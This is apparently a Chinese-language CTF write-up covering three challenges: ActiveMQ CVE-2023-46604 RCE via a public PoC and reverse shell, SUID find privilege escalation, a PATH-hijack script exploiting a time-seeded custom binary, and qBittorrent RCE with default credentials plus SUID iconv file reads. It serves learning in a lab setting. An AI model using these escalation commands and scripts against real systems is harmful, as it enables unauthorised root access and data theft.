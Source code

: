 tags:: ActiveMQ

- # Reverse and Escalation.
  id:: 65d857c5-5902-47f4-b400-23c5b972bba5
	- 访问给的两个端口，其中一个端口返回了ActiveMQ的相关信息
	- 在网上找到一个和ActiveMQ相关的[WP](https://0xdf.gitlab.io/2023/11/09/htb-broker.html#)，~~貌似是原题？~~就是原题
		- [大佬的分析](https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/?ref=deep-kondah.com)
	- 直接拿着[POC](https://github.com/evkl1d/CVE-2023-46604)复现即可拿到reverse shell
		- POC需要两个端口，一个端口用来搭建HTTP服务器向外提供exp.xml的URL，另一个端口用来等待reverse shell
	- 最后find提权
		- ```shell
		  find / -perm -u=s -type f 2>/dev/null # 寻找suid文件
		  find . -exec sh -p \; -quit # 提权到root
		  ```
- # Reverse and Escalation.II
	- RCE步骤和 ((65d857c5-5902-47f4-b400-23c5b972bba5)) 一样
	- 然后提权，注意到find二进制不是正常的find程序，而是一个自己写的程序
	- 下载下来反编译
		- ![截图_2024-02-23_20-12-00.png](../assets/截图_2024-02-23_20-12-00_1708690342605_0.png)
		- 这里的随机数种子是当前的时间戳，一个整数，所以可以在一秒内爆破出这里的所有随机数，从而执行最下面的`system("ls");`
		- 然后因为这里的system函数直接执行了ls, 可以使用环境变量欺骗这个二进制执行恶意的ls二进制
	- 写一个脚本爆破出所有的随机数，再写一个脚本作为恶意的ls文件
		- `exp.sh`
			- ```shell
			  #!/bin/sh
			  export PATH=.:$PATH
			  result=$(find 1 | grep -oP '\d+ \+ \d+' | tail -n 1)
			  a=${result[0]}
			  b=${result[2]}
			  sum=$((a+b))
			  nums=($sum )
			  for i in $(seq 1 38); do
			    result="$(find ${nums[@]} 1 | grep -oP '\d+ \+ \d+' | tail -n 1)"
			    a=${result[0]}
			    b=${result[2]}
			    sum=$((a+b))
			    nums[$i]=$sum
			  done
			  echo ---
			  find ${nums[@]}
			  ```
		- `ls`
			- ```shell
			  #!/bin/sh
			  echo im executed
			  sh
			  ```
		- 把上面这两个文件丢到目标的同一个文件夹内执行就行
- # Whose Home?
	- 有两个flag
	- 默认账号密码(`admin`/`adminadmin`)登陆qBitorrent
	- 使用设置中的`Run external program`功能实现RCE
	- 然后用有SUID的iconv程序实现读取第一个flag
		- ```shell
		  iconv -f utf-8 -t utf-8 /flag
		  ```
		- [支持通过SUID提权的软件](https://gtfobins.github.io/)
- # 火箭大头兵
	- > 施工中，未解出
	- flag可能放在profile或者private message中